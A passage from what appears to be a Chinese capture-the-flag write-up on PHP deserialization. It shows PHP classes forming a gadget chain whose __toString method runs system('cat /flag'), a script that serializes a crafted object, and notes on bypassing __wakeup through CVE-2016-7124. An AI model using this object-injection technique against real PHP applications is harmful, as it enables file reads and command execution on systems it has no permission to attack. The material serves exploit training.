 ```php
    }

    public function __wakeup(){
        if ($this->name !== 'Yasuo'){
            $this->name = 'Yasuo';
            echo "No Yasuo! No Soul!\n";
        }
    }


    public function __invoke(){
        $this->Gank();
    }

    public function Gank(){
        if (stristr($this->name, 'Yasuo')){
            echo "Are you orphan?\n";
        }
        else{
            echo "Must Be Yasuo!\n";
        }
    }
}

class jungle{
    protected $name = "";

    public function __construct($name = "Lee Sin"){
        $this->name = $name;
    }

    public function KS(){
        system("cat /flag");
    }

    public function __toString(){
        $this->KS();
        return "";
    }

}

$player = new player("1","1");
$player->test = new topsolo();
$data = write(serialize($player));
echo $data;
```

这里`__wakeup`需要绕一绕，参考 CVE-2016-7124，当成员属性数目大于实际数目时，\_\_wakeup 不会执行

第二个点是过 check 函数

